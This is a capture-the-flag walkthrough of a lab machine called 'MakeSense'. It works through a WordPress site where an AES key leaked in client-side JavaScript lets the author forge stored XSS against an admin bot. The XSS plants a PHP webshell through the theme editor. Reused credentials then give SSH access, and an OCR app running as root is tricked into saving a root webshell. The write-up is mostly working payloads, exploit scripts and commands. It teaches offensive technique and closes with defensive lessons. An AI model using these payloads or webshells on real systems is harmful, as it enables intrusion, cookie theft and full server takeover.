



MakeSense
1. Reconnaissance
Ports Scan
nmap -sV -sC -A -T4 --reason -oA nmap-result <target-ip>Open Ports:
- 22/tcp – SSH (OpenSSH 9.6p1 Ubuntu)
- 80/tcp – filtered (no-response)
- 443/tcp – HTTPS (Apache 2.4.58, WordPress 7.0, CN=
makesense.htb) - 8001/tcp – filtered (internal OCR service later)
echo '<target-ip> makesense.htb' | sudo tee -a /etc/hostsWeb Content Discovery
ffuf -u https://makesense.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -ignore-body -fs 0The interesting hits:
.hta [Status: 403, Size: 279, Words: 0, Lines: 0, Duration: 0ms]
.htpasswd [Status: 403, Size: 279, Words: 0, Lines: 0, Duration: 0ms]
.gitignore [Status: 200, Size: 1055, Words: 0, Lines: 0, Duration: 0ms]
.htaccess [Status: 403, Size: 279, Words: 0, Lines: 0, Duration: 0ms]
.git/logs/ [Status: 200, Size: 34914, Words: 5289, Lines: 349, Duration: 4289ms]
cgi-bin/ [Status: 200, Size: 34914, Words: 5289, Lines: 349, Duration: 1545ms]
scripts [Status: 301, Size: 318, Words: 0, Lines: 0, Duration: 0ms]
server-status [Status: 403, Size: 279, Words: 0, Lines: 0, Duration: 0ms]
wp-content [Status: 301, Size: 321, Words: 0, Lines: 0, Duration: 0ms]
wp-includes [Status: 301, Size: 322, Words: 0, Lines: 0, Duration: 0ms]
wp-admin [Status: 301, Size: 319, Words: 0, Lines: 0, Duration: 0ms]
xmlrpc.php [Status: 405, Size: 42, Words: 0, Lines: 0, Duration: 0ms].gitffuf also reported .git/logs/ as 200/34914 bytes — that is not an exposed git repo. WordPress serves index.php (the homepage, ~34914 bytes) for any unrecognized pretty-permalink path. A direct request to /.git/HEAD returns 301 via X-Redirect-By: WordPress (canonical trailing-slash redirect), confirming the file doesn't actually exist. Only .gitignore is real.
.gitignore is the first real clue
curl -sk https://makesense.htb/.gitignore# Model files - excluded from repository (download via scripts)
*.gguf
*.bin
*.safetensors
# AI models - only exclude the large model files, keep transformers.js library
wp-content/ai-models/models/
# HuggingFace cache (Whisper models auto-download here)
.cache/huggingface/So the site uses client-side AI (Whisper) — this matches the homepage's "Call" button ("Ready to connect / Recording… / Speak your message after the beep").
WordPress Enumeration
wpscan --url https://makesense.htb --disable-tls-checks[+] WordPress version 7.0 identified (Latest, released on 2026-05-20).
| Found By: Meta Generator (Passive Detection)
| - https://makesense.htb/, Match: 'WordPress 7.0'
| Confirmed By: Atom Generator (Aggressive Detection)
| - https://makesense.htb/?feed=atom, <generator uri="https://wordpress.org/" version="7.0">WordPress</generator>
[+] WordPress theme in use: webagency
| Location: https://makesense.htb/wp-content/themes/webagency/
| Style URL: https://makesense.htb/wp-content/themes/webagency/style.css?ver=7.0
| Style Name: WebAgency
| Style URI: https://example.com
| Description: Modern web development agency theme with Tailwind CSS...
| Author: WebAgency Team
| Author URI: https://example.com
|
| Found By: Css Style In Homepage (Passive Detection)
| Confirmed By: Css Style In 404 Page (Passive Detection)
|
| Version: 1.0 (80% confidence)
| Found By: Style (Passive Detection)
| - https://makesense.htb/wp-content/themes/webagency/style.css?ver=7.0, Match: 'Version: 1.0'
[i] No plugins Found.
[i] No Config Backups Found.REST API is open and exposes the users endpoint:
curl -sk "https://makesense.htb/index.php?rest_route=/wp/v2/users"[{"id":1,"name":"admin","slug":"admin","url":"http:\/\/localhost:8000",...}]Note the admin user's url field points at http://localhost:8000 — a hint that there is a localhost service the admin cares about (the OCR4 service on 8001 turns out to be it).
wp/v2/users is enabled by default on unauthenticated REST. Many hardened sites disable it; here it leaks the admin slug and that localhost hint.
2. Foothold — Stored XSS via a Leaked AES Key
Reading the Client-Side AI Pipeline
The homepage loads three custom scripts:
<script id="whisper-wrapper-js-extra">
var webagency_ajax = {"ajax_url":"https://makesense.htb/wp-admin/admin-ajax.php","nonce":"4c58dec735","theme_url":"https://makesense.htb/wp-content/themes/webagency","site_url":"https://makesense.htb"};
</script>
<script id="whisper-wrapper-js" src="https://makesense.htb/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js?ver=1.0"></script>
<script id="webagency-main-js" src="https://makesense.htb/wp-content/themes/webagency/assets/js/main.js?ver=1.0"></script>whisper-wrapper.js is the prize. It contains:
// Symmetric encryption key (must match server-side)
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';and an applySymbolMapping() whose docstring is the smoking gun:
/**
* Map spoken words to their symbol equivalents for XSS injection
* 'open bracket' -> '<', 'close bracket' -> '>', ...
*/The intended UX is: user records audio → Whisper transcribes in-browser → text is summarized → the {transcription, summary} payload is AES-GCM encrypted with that key → POSTed to admin-ajax.php?action=save_voice_results. The server decrypts with the same key and stores the transcription in the contact_submission post's meta. An admin reviews submissions in wp-admin/edit.php?post_type=contact_submission, where the transcription is rendered unescaped.
Because we have the key, we don't need to record audio at all — we can forge any encrypted payload ourselves.
The Three AJAX Actions
From functions.php:
| Action | Auth | Purpose |
|---|---|---|
submit_contact_form |
nopriv | Creates a contact_submission post (message = content) |
save_voice_raw |
nopriv | Accepts a WAV upload, returns a fresh post_id |
save_voice_results |
nopriv | Decrypts encrypted_payload, stores transcription/summary in post meta |
Forging the Encrypted Transcription
The JS encryption is straight WebCrypto AES-GCM: key = SHA-256(ENCRYPTION_KEY), random 12-byte IV, output = iv || ciphertext||tag base64. We replicate it in Python:
nano encrypt_payload.pyimport json
import hashlib
import os
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
KEY = b'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI'
def encrypt_payload(payload_dict):
"""Encrypt a payload for the WordPress admin-ajax endpoint"""
key = hashlib.sha256(KEY).digest()
iv = os.urandom(12)
ct = AESGCM(key).encrypt(iv, json.dumps(payload_dict).encode(), None)
return base64.b64encode(iv + ct).decode()
if __name__ == "__main__":
import sys
payload = sys.argv[1] if len(sys.argv) > 1 else '{"transcription":"test","summary":"test"}'
# If payload is a JSON string, use it directly
try:
payload_dict = json.loads(payload)
except:
payload_dict = {"transcription": payload, "summary": "test"}
print(encrypt_payload(payload_dict))First, prove the round-trip works with a benign marker:
Get a fresh nonce
NONCE=$(curl -sk https://makesense.htb | grep -oP '"nonce":"\K[a-f0-9]+' | head -1)
echo "Nonce: $NONCE"
# Nonce: 9e39546208Create a voice recording post
curl -sk -X POST https://makesense.htb/wp-admin/admin-ajax.php \
-F "action=save_voice_raw" \
-F "nonce=$NONCE" \
-F "voice_recording=@-;filename=v.wav;type=audio/wav" <<<"RIFFWAVE"
# {"success":true,"data":{"message":"Audio saved, processing started.","post_id":69}}Test the Round Trip
# Create a test encryption
TEST_PAYLOAD=$(python3 encrypt_payload.py '{"transcription":"TEST_MARKER_123","summary":"test"}')
# Submit it
curl -sk -X POST https://makesense.htb/wp-admin/admin-ajax.php \
-F "action=save_voice_results" \
-F "nonce=$NONCE" \
-F "post_id=69" \
-F "encrypted_payload=$TEST_PAYLOAD"
# {"success":true,"data":{"message":"Results saved successfully!","post_id":69}}Create the XSS Payload
A short XSS that exfiltrates location.href + document.cookie back into a new public contact_submission (via the unauthenticated submit_contact_form action, whose nonce we re-fetch from the homepage each time):
XSS_PAYLOAD='<script>
fetch("/").then(r=>r.text()).then(h=>{
let n=h.match(/"nonce":"([a-f0-9]+)"/)[1];
fetch("/wp-admin/admin-ajax.php",{method:"POST",
headers:{"Content-Type":"application/x-www-form-urlencoded"},
body:"action=submit_contact_form&nonce="+n+"&name=BOTVISIT&email=b@b.com&phone=1&message="+encodeURIComponent(location.href+"|||"+document.cookie)});
});
</script>'# Encrypt it
XSS_ENCRYPTED=$(python3 encrypt_payload.py "{\"transcription\":\"$XSS_PAYLOAD\",\"summary\":\"test\"}")
# Submit it
curl -sk -X POST https://makesense.htb/wp-admin/admin-ajax.php \
-F "action=save_voice_results" \
-F "nonce=$NONCE" \
-F "post_id=69" \
-F "encrypted_payload=$XSS_ENCRYPTED"
# {"success":true,"data":{"message":"Results saved successfully!","post_id":69}}Encrypt that as the transcription and submit it on a fresh voice-call post. ~30 seconds later:
curl -sk "https://makesense.htb/index.php?rest_route=/wp/v2/contact_submission&per_page=10&orderby=date&order=desc"{"id":73,"title":{"rendered":"Contact from BOTVISIT"},
"content":{"rendered":"<p>https://makesense.htb/wp-admin/edit.php?post_type=contact_submission|||wp-settings-time-3=1783234289</p>"}}So a headless Chrome bot lands on edit.php?post_type=contact_submission and our transcription renders there. Auth cookies are HttpOnly, so the exfil channel is: the bot runs our JS as admin, and we exfiltrate by creating new public contact_submission posts that we read via REST.
Each XSS-created contact_submission is itself a new submission, so the bot visits it next cycle. The loop only sustains while the newest post still contains a <script>. If you overwrite an old post the bot won't revisit it — always drop payloads on the *newest* post (create via save_voice_raw).
Deploy the RCE Payload
The bot is admin, so it can use wp-admin/theme-editor.php. Two gotchas cost real time:
1. The nonce field is name="nonce", not _wpnonce. Standard WordPress uses _wpnonce; this theme/version uses nonce. My first attempts extracted _wpnonce and got nothing (the only _wpnonce on the page is the logout link's).
2. WordPress 7.0 PHP-lints newcontent before writing. A webshell written as $_GET[chr(99)] to dodge quote-escaping failed the lint and silently wasn't saved. Switching to $_GET[1] (integer key, no quotes) passes lint and works fine.
Now, let's inject PHP code into the theme's footer.php:
RCE_PAYLOAD='<script>fetch("/").then(r=>r.text()).then(async h=>{
let n=h.match(/"nonce":"([a-f0-9]+)"/)[1];
let P=(m,b)=>fetch("/wp-admin/admin-ajax.php",{method:"POST",
headers:{"Content-Type":"application/x-www-form-urlencoded"},
body:"action=submit_contact_form&nonce="+n+"&name="+m+"&email=b@b.com&phone=1&message="+encodeURIComponent(b).slice(0,5000)});
let r=await fetch("/wp-admin/theme-editor.php?theme=webagency&file=footer.php",{credentials:"include"});
let t=await r.text();
let wn=t.match(/name="nonce" value="([a-f0-9]+)"/)[1];
let f=new FormData();
f.append("nonce",wn); f.append("action","update");
f.append("file","footer.php"); f.append("theme","webagency");
f.append("newcontent","<?php if(isset($_GET[1])){system($_GET[1]);exit;} ?>");
f.append("submit","Update File");
let r2=await fetch("/wp-admin/theme-editor.php",{method:"POST",body:f,credentials:"include"});
await P("UP","st="+r2.status);
})</script>'# Encrypt and submit it
RCE_ENCRYPTED=$(python3 encrypt_payload.py "{\"transcription\":\"$RCE_PAYLOAD\",\"summary\":\"test\"}")
# Create a new voice post for this RCE payload
curl -sk -X POST https://makesense.htb/wp-admin/admin-ajax.php \
-F "action=save_voice_raw" \
-F "nonce=$NONCE" \
-F "voice_recording=@-;filename=v.wav;type=audio/wav" <<<"RIFFWAVE"
# {"success":true,"data":{"message":"Audio saved, processing started.","post_id":84}}
# Submit the encrypted RCE payload with the new post_id
curl -sk -X POST https://makesense.htb/wp-admin/admin-ajax.php \
-F "action=save_voice_results" \
-F "nonce=$NONCE" \
-F "post_id=84" \
-F "encrypted_payload=$RCE_ENCRYPTED"
# {"success":true,"data":{"message":"Results saved successfully!","post_id":84}}Wait ~30 seconds for the bot to execute. Then:
curl -sk "https://makesense.htb/wp-content/themes/webagency/footer.php?1=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)3. Privilege Escalation
SSH as walter
wp-config.php reveals a SQLite-backed WordPress with plaintext credentials:
curl -sk "https://makesense.htb/wp-content/themes/webagency/footer.php?1=cd+../../..;+ls"
curl -sk "https://makesense.htb/wp-content/themes/webagency/footer.php?1=cd+../../..;+cat+wp-config.php"// Dummy MySQL settings (required but not used with SQLite)
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'walter' );
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );Try it for SSH (password reuse):
sshpass -p 'JbhHDAEgXvri3!' ssh walter@makesense.htbLast login: Tue Jul 7 12:10:16 2026
walter@makesense:~$ id
uid=1000(walter) gid=1000(walter) groups=1000(walter)A Root PHP Server on localhost:8001
From walter's shell:
ss -tlnpLISTEN 0 4096 127.0.0.1:8001 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:42339 0.0.0.0:* # chromedriver (the bot)
LISTEN 0 4096 127.0.0.1:45343 0.0.0.00:* # chrome devtoolsps aux | grep -E '8001|ocr' | grep -v greproot 1400 /bin/sh -c /root/.scripts/start_ocr4.sh
root 1401 /bin/bash /root/.scripts/start_ocr4.sh
root 1413 php -S 127.0.0.1:8001 -t /root/ocr4/A PHP built-in server running as root, webroot /root/ocr4/, started by a root cron. Probe it:
curl -sI http://127.0.0.1:8001/HTTP/1.0 401 Unauthorized
X-Powered-By: PHP/8.3.6
WWW-Authenticate: Basic realm="OCR Protected"Try the only password we have — walter's, reused again:
curl -s -o /dev/null -w "%{http_code}\n" -u walter:JbhHDAEgXvri3! http://127.0.0.1:8001/
# 200Tunnel it locally so we can drive it comfortably:
sshpass -p 'JbhHDAEgXvri3!' ssh -fN -L 8101:127.0.0.1:8001 walter@makesense.htbThe OCR4 App
http://127.0.0.1:8101/ is a canvas: draw a word, hit Recognize, tesseract reads it back, and a "Save as" form lets you write the recognized text into saved/<filename>:

[image: Pasted image 20260707191740.png]'">
[image: Pasted image 20260707193637.png]'"><form method="post">
<input type="hidden" name="ocr_id" value="ocr_6a4a07be0b94f4.40299995">
<input type="text" name="filename" placeholder="result.txt" required>
<button type="submit" name="save_output">Save</button>
</form>Then, I'm trying the save in .php

[image: Pasted image 20260707194312.png]'">It works, but .php is permitted, and the saved file lives inside the root server's webroot. The saved file's content is the tesseract-recognized text. So if we can get tesseract to read PHP, we write a root-executed webshell.
Making Tesseract Write PHP
Render the payload as a clean monospace image and let OCR do its job:
nano root_payload.pyfrom PIL import Image, ImageDraw, ImageFont
import base64, io, re, html, requests
pl = '<?php system($_GET["c"]);?>'
img = Image.new('RGB', (1400,140), 'white')
d = ImageDraw.Draw(img)
f = ImageFont.truetype('/usr/share/fonts/truetype/dejavu/DejaVuSansMono-Bold.ttf', 52)
d.text((20,40), pl, fill='black', font=f)
b = io.BytesIO(); img.save(b, 'PNG')
dataurl = 'data:image/png;base64,' + base64.b64encode(b.getvalue()).decode()
s = requests.Session(); s.auth = ('walter','JbhHDAEgXvri3!'); s.verify=False
r = s.post('http://127.0.0.1:8101/', data={'canvas_image': dataurl})
oid = re.search(r'name="ocr_id" value="([^"]+)"', r.text).group(1)
rec = html.unescape(re.search(r'output-text">([^<]*)<', r.text).group(1)).strip()
print('recognized:', repr(rec))
# recognized: '<?php system($_GET["c"]) ;?>' (space before ; is harmless)
# save it as a PHP file inside the root webroot
r2 = s.post('http://127.0.0.1:8101/', data={'ocr_id':oid,'filename':'shell.php','save_output':'Save'})
# -> "Saved as: saved/shell.php"
# trigger it
print(s.get('http://127.0.0.1:8101/saved/shell.php', params={'c':'id'}).text)recognized: '<?php system($_GET["c"]) ;?>'
uid=0(root) gid=0(root) groups=0(root)Root webshell at /saved/shell.php, served by the root PHP process. Grab the flags:
curl -s -u walter:JbhHDAEgXvri3! "http://127.0.0.1:8101/saved/shell.php" \
-G --data-urlencode "c=id; cat /home/walter/user.txt /root/root.txt"uid=0(root) gid=0(root) groups=0(root)
<user-flag>
<root-flag>4. Flag Paths
- User flag:
/home/walter/user.txt - Root flag:
/root/root.txt
Lessons
- Client-side secrets are not secrets — the Whisper AES key in theme JS let us forge encrypted transcriptions and land stored XSS on an admin bot.
- From there, theme-editor RCE as
www-data, password reuse into SSH aswalter, and a root PHP built-in server on127.0.0.1:8001turned OCR “save as .php” into a root webshell. - Always review front-end crypto keys, bot-reviewed admin panels, and localhost services after a foothold.